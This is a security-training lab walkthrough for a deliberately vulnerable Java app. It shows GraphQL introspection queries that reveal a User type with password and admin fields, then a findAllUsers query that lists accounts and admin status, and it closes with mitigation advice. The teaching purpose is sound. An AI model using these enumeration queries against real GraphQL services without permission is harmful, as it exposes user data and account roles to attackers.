 # KBID 285 - GraphQL introspections

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](../../.gitbook/assets/java/GraphQL-Introspections/1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "password"
        },
        {
          "name": "admin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `admin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `findAllUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	findAllUsers{
    username
    admin
  }
}
```

![](../../.gitbook/assets/java/GraphQL-Introspections/2.png)

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
